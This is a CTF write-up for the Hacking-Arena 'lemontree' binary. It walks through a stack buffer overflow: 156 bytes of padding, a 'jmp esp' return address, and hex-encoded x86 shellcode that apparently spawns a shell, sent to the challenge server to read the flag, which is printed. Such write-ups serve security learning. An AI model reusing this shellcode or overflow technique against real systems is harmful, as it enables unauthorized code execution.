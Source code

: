 # Flag

> Hacking-Arena{Just_a_yellow_lemon_tree}

# Prompt

> I wonder how, I wonder why you cannot solve this binary.

> nc koala2.hackingarena.no 805 nc koala.hackingarena.com 805 (same binary)

# Solution

Determine the necessary size of padding for the attached binary.

gdb ./lemontree

Run binary file and attempt to crash when output equals "... , But nothing ever".

![[Pasted image 20241115171527.png]]

Padding is equal to 156, so I proceed by finding the return address of the binary file (jmp esp)

Edit template.py to match padding of 156
![[Pasted image 20241115172120.png]]

![[Pasted image 20241115172244.png]]

Run template.py and debug using GDB, then search and find 'jmp esp'

![[Pasted image 20241115172508.png]]

Run template.py, debug and search for 'jmp esp' using pwndbg:

search --asm 'jmp esp'

![[Pasted image 20241115172555.png]]

Add a payload for template.py:
payload+= p32(0x8049243)

Edit template.py and include 'jmp esp' as a payload.

![[Pasted image 20241115172716.png]]

Add another payload, the same payload from the strawberry CTF.
payload+='\x99\x52\x58\x52\xbf\xb7\x97\x39\x34\x01\xff\x57\xbf\x97\x17\xb1\x34\x01\xff\x47\x57\x89\xe3\x52\x53\x89\xe1\xb0\x63\x2c\x58\x81\xef\x62\xae\x61\x69\x57\xff\xd4'

Additionally, add the payload used in "Strawberry Exploit".
![[Pasted image 20241115172911.png]]

Lastly, run template.py on web server and port.
![[Pasted image 20241115173143.png]]
"cat flag" to find CTF flag
# Additional Info

Additional solution / info